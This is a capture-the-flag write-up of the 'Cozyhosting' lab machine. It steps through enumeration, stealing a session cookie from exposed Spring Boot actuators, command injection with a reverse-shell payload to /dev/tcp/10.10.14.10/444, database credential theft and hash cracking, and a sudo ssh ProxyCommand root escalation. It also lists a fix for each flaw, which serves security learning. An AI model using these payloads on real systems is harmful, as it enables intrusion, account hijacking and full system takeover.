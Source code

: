 # Cozyhosting Machine

## Service Enumeration

Once the open ports are known, the services enumeration process begins. In order to do this, Nmap tool is used and, specifically the following command: ```sudo nmap -sS -p22,80 -sV -O -sC cozyhosting.htb``` 
 
![image](images/Cozyhosting/Imagen2.png)

### HTTP Enumeration

The first step taken was to scan using gobuster in order to find directories and other func-tions in the service. The command used was ```sudo gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wfuzz/wordlist/general/common.txt”```.
 
![image](images/Cozyhosting/Imagen3.png)

First thing to do is to manually check the findings. 

When accessing “admin” page, a redirection to “login” is found.
 
![image](images/Cozyhosting/Imagen4.png)

The “error” page gives more information as let us guess the type of application that is run-ning in the background. This is because “Whitelabel Error Page” is the default error page for Spring Boot applications.
 
![image](images/Cozyhosting/Imagen5.png)

Taking the last into account, a new directory scan will be made but this time using a Spring Boot dictionary (obtained form https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/spring-boot.txt). 
Command used is ```sudo gobuster dir -u http://cozyhosting.htb/ -w /home/corso/Desktop/wordlists/SecLists-master/Discovery/Web-Content/spring-boot.txt```.

 
![image](images/Cozyhosting/Imagen6.png)

As shown in the previous picture, Spring Boot actuators are found. Sessions and Mappings actuators stand out because they give very useful information.
In ```/actuator/mappings``` we can see the different endpoints available in the application. Among them, ```/executessh``` seems to be interesting.
 
![image](images/Cozyhosting/Imagen7.png)

Sessions’ actuator shows what seems to be a session cookie for the user Kanderson. If user “Kanderson” has rights to access the Admin page, it may be possible to use his session cookie and access on his behalf. 

 
![image](images/Cozyhosting/Imagen8.png)
 
![image](images/Cozyhosting/Imagen9.png)

Once the cookie is set, it is possible to access the Admin Dashboard.  

![image](images/Cozyhosting/Imagen10.png)

Looking through the Admin dashboard, there is an interesting functionality that lets the user configure an arbitrary host for automatic patching through SSH. As expected, it uses the ```/executessh``` endopoint that stood out during the ```/actuator/mappings``` enumeration.
 
![image](images/Cozyhosting/Imagen11.png)

Inserting two random values as ```hostname=localhost&username=kanderson``` generates a POST request to ```/executessh``` that results in a “Host key verification failed” error.
 
![image](images/Cozyhosting/Imagen12.png)
 
![image](images/Cozyhosting/Imagen13.png)

The way the errors are thrown are suspicious as it seems to be the output of a shell com-mand. In order to generate more errors, I inserted some special characters to see if it is possible to inject some commands.

The error shown after inserting ```hostname=localhost&username=hello;id;```, was a clear indication that host may be vulnerable to command injection.
 
![image](images/Cozyhosting/Imagen14.png)
 
![image](images/Cozyhosting/Imagen15.png)

The fact that the error says ```@localhost: command not found``` let us know that the command executed on the backend is something like ```ssh [some_options] <username>@<hostname>``` and if “;” is inserted on the username parameter the ssh command will fail as it will not correctly receive the hostname parameter (because the server will consider everything after “;” as a new command).

It was also confirmed that front end did not allow blank spaces on the username parameter.
 
![image](images/Cozyhosting/Imagen16.png)

After some trials, it was found that appending ```%0A<command_to_execute_without_spaces>;``` let us execute commands on the server.
In order to check the execution, a 404 HTTP GET request will be performed against a web server running on my machine.
 
![image](images/Cozyhosting/Imagen17.png)
 
![image](images/Cozyhosting/Imagen18.png)

## Initial Access – Command Injection

**Vulnerability Explanation**: misconfigured Spring Boot application that exposes other users’ session cookies has a insecure function “/executessh” where it is possible to inject com-mands to open a reverse shell.
**Vulnerability Fix**: securely store session cookies and correctly sanitize user input on “/executessh” function.
**Severity**: Critical
**Steps to reproduce the attack**: 

•	Access “/actuator/sessions” and grab session cookie for user “kanderson”.

•	Setup a listener on port 444.

•	Using that cookie access the Admin dashboard and insert on username parameter: kanderson@%0A(sh)0>/dev/tcp/10.10.14.10/444;a
 
![image](images/Cozyhosting/Imagen19.png)

•	Insert “exec >&0” on the recently opened shell.
 
![image](images/Cozyhosting/Imagen20.png)

## Post Exploitation.

After gaining initial access, a veri interesting file is  found called “cloudhosting-0.0.1.jar”
 
![image](images/Cozyhosting/Imagen21.png)

After downloading the file and manually inspecting it, some credentials for PostgreQL data-base are found inside a file called “application.properties”.
 
![image](images/Cozyhosting/Imagen22.png)

This password let me access the postgresql database using the command ```psql -U post-gres -h localhost```.
 
![image](images/Cozyhosting/Imagen23.png)

More credentials are found inside “Users” table.
 
![image](images/Cozyhosting/Imagen24.png)

Using hashcat and rockyou dictionary it is possible to crack the hash for user Admin.
 
![image](images/Cozyhosting/Imagen25.png)

Once this password is recovered, it is possible to access the target machine through SSH as the password was reused and is the same password for user local user josh.
 
![image](images/Cozyhosting/Imagen26.png)

## Privilege Escalation – Insecure Sudo Permissions

**Vulnerability Explanation**: After establishing a foothold on target, Cosme noticed that the user has permissions to execute “ssh *” as a super user. This configuration let a user with-out privileges spawn a root shell.
**Vulnerability Fix**: avoid using wildcards when establishing the sudo permissions for a user.
**Severity**: Critical
**Steps to reproduce the attack**: execute “sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x”
**Screenshot**:
 
![image](images/Cozyhosting/Imagen27.png)

## Post-Exploitation

System Proof Screenshot:

![image](images/Cozyhosting/Imagen28.png)
